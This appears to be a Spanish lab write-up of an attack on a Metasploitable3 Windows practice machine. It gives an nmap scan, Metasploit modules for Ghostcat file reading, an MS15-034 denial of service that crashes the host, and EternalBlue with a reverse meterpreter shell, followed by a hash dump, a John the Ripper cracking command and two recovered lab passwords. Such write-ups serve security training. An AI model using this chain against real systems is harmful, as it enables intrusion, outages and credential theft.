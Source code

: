 # MS3-WIN

## Enumeración

```
sudo nmap -sV -T4 -p- 10.0.2.14
```
![Imagen](images/image.png)

## CVE-2021-41381

Está pendiente de análisis.
https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2021-41381

## CVE-2016-6794

No explotable.

## CVE-2010-0219

No explotable.

## CVE-2020-1938

Ejecutando el siguiente módulo en Metasploit:

```
auxiliary/admin/http/tomcat_ghostcat
```

Hemos podido leer un archivo extraído del servidor Tomcat (puerto 8009); es decir, se muestra el contenido de un archivo XML (web.xml en este caso) que contiene la configuración básica de la aplicación web de Tomcat.

![Imagen](images/image-1.png)

## CVE-2015-1635

Haciendo uso del siguiente módulo de Metasploitable:

```
scanner/http/ms15_034_http_sys_memory_dump
```

Obtenemos un volcado hexadecimal junto con su representación en ASCII. Esto indica que se ha capturado parte de la respuesta HTTP generada por el servidor y que es vulnerable a ataques que explotan el manejo inadecuado de solicitudes HTTP.

![Imagen](images/image-2.png)

Podemos explotar esta vulnerabilidad de la siguiente manera:

Empezamos buscando el módulo en`msfconsole`:

```
search ms15-034
```

Usamos el primero:

```
use auxiliary/dos/http/ms15_034_ulonglongadd
```

Asignamos la IP del host vulnerable y corremos el comando.

```
run 
```
![Imagen](images/image-6.png)

Esto provoca que la máquina colapse y se reinicie cada vez que se ejecute el exploit.
## CVE-2017-0143 (ETERNALBLUE)

Ejecutando el módulo de`exploit/windows/smb/ms17_010_eternalblue`con el payload de`windows/x64/meterpreter/reverse_tcp`pudimos abrir una sesión de meterpreter.

![Imagen](images/image-3.png)

Hacemos un`hashdump`y obtenemos todos los hashes de las contraseñas de los usuarios del sistema:

![Imagen](images/image-4.png)

Copiamos este resultado a un fichero llamado`hash.txt`y utilizamos `John the Ripper`:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Obtuvimos los credenciales de dos usuarios del sistema:

- **Administrato**r: vagrant
- **c_three_pio**: pr0t0c0l

![Imagen](images/image-5.png)

